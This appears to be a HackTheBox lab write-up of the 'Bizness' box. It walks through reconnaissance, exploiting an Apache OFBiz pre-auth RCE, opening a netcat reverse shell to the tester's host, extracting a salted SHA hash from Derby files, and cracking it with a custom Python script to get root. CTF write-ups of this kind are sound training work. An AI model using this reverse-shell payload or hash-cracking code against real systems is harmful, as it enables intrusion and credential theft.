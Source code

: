 ```yaml
---
title: "Bizness"
description: "Another easy linux box post CTF, let's get cracking!"
pubDate: 2024-05-26
author: "sealldev"
section: "HackTheBox"
image: "images/htb/box/bizness/icon.png"
tags: ["easy", "hackthebox-machine"]
---
```


**Machine created by:** [C4rm3l0](https://app.hackthebox.com/users/458049)

## Recon
I start off my recon by doing a portscan of the IP.

```
$ sudo nmap 10.129.255.102 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-08 18:45 AEDT
Nmap scan report for 10.129.255.102
Host is up (0.31s latency).
Not shown: 2497 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We can see 3 open ports, mainly of interest is HTTP.

I edit my `/etc/hosts` to make a new entry:

```
10.129.255.102 bizness.htb
```

After that I visit [bizness.htb](https://bizness.htb) and see nothing of particular interest...

`dirstalk` gives 0 results, maybe there's subdomains?

No subdomains from scanning with FFuF, until I notice something in the page footer: `Powered by Apache OFBiz`

Searching for `Apache OFBiz CVE` yields [CVE-2023-50968 (SSRF)](https://nvd.nist.gov/vuln/detail/CVE-2023-50968) and [CVE-2023-51467 (Pre-Auth RCE)](https://nvd.nist.gov/vuln/detail/CVE-2023-51467).

## Initial Access & User Flag

Using a [PoC of the Pre-Auth RCE](https://github.com/JaneMandy/CVE-2023-51467-Exploit/releases/tag/Apache-Ofbiz), I set my URL to `https://bizness.htb/` then used `whoami` to find myself as `ofbiz`, and then using `cat /home/ofbiz/user.txt` to get the user flag.

Flag: `eff96303c752d6ac896258dd16aa422e`

I setup a listener for a reverse shell:

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

Using the payload `nc 10.10.***.*** 4444 -e /bin/bash` triggered the reverse shell (Thank you [RevShells](https://www.revshells.com/))!

```
[19:05:59] 10.129.255.102:58820: normalizing shell path
[19:06:03] 10.129.255.102:58820: registered new host w/ db
[19:06:08] listener: 10.10.***.***:4444: linux session from 10.129.255.102:58820
           established
```

## Root Flag

Now once we connect its a little unclear where to pivot and took me alot of exploring to find, but the eventual trick was this:

```
$ find /opt/ofbiz -name '*Admin*' -type f 2>/dev/null
/opt/ofbiz/applications/accounting/groovyScripts/admin/AcctgAdminServices.groovy
/opt/ofbiz/applications/accounting/minilang/test/AutoAcctgAdminTests.xml
/opt/ofbiz/applications/product/template/product/EditProductQuickAdmin.ftl
/opt/ofbiz/applications/product/groovyScripts/catalog/product/EditProductQuickAdmin.groovy
/opt/ofbiz/framework/start/src/main/java/org/apache/ofbiz/base/start/AdminClient.java
/opt/ofbiz/framework/start/src/main/java/org/apache/ofbiz/base/start/AdminServer.java
/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-PostgreSQL.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Oracle.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-Derby.xml
/opt/ofbiz/framework/resources/templates/AdminNewTenantData-MySQL.xml
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/solr/webapp/OFBizSolrLoadAdminUiServlet.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer$OfbizSocketCommand.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer$1.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminServer.class
/opt/ofbiz/build/classes/java/main/org/apache/ofbiz/base/start/AdminClient.class
/opt/ofbiz/plugins/solr/src/main/java/org/apache/ofbiz/solr/webapp/OFBizSolrLoadAdminUiServlet.java
/opt/ofbiz/plugins/lucene/template/AdminSearch.ftl
```

Looking in `/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml` is the following:
```
$ cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
```

We can see its looking for a SHA password hash, and with a little bit of perusing around the files, there is a Derby database in `/opt/ofbix/runtime/data/derby/ofbiz`, so we can read the `seg0` files for a hash.

I do `cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/* | strings | grep 'SHA'` to find the hash: 
```
$ cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/* | strings | grep 'SHA'
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```


Now unfortunately we can't just chuck `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` into hashcat as they use [a different format](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) from reading their Java code.

So we have to rebuild their hash format in Python so we can break it!

```python
import hashlib
import os
import base64, sys
hashType="SHA1"
salt="d"
lookfor = "$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
dictionary = "/..../rockyou.txt"

def cryptBytes(hashType, salt, byte):
    if not hashType:
        hashType = "SHA1"
    if not salt:
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf8')
    h = hashlib.new(hashType)
    h.update(salt.encode('utf8'))
    h.update(byte)
    hb=h.digest()
    return f"${hashType.replace('1','')}${salt}${base64.urlsafe_b64encode(hb).decode('utf-8').replace('+','.').replace('=','')}"

c=0
t=0
with open(dictionary,'r',errors='surrogateescape') as f:
    for l in f:
        t+=1
with open(dictionary,'r',errors='surrogateescape',encoding='latin-1') as f:
    for l in f:
        c+=1
        try:
            l=l.strip().encode('utf-8')
        except:
            continue
        hashed=cryptBytes(hashType,salt,l)
        if hashed==lookfor:
            print(f'{l} ({hashed})')
            sys.exit()
        if c%100000 == 0:
            print(f'{c}/{t}')
```

I run my script:
```
$ python3 crack.py
100000/14344391
200000/14344391
300000/14344391
400000/14344391
500000/14344391
600000/14344391
700000/14344391
800000/14344391
900000/14344391
1000000/14344391
1100000/14344391
1200000/14344391
1300000/14344391
1400000/14344391
b'monkeybizness' ($SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I)
```

A match! `monkeybizness`!

Executing `su` with the password from the script gives us the root flag.

Flag: `8ff8c856693f95f880d4d76f5a91fefc`

![Success](images/htb/box/bizness/submitted.png)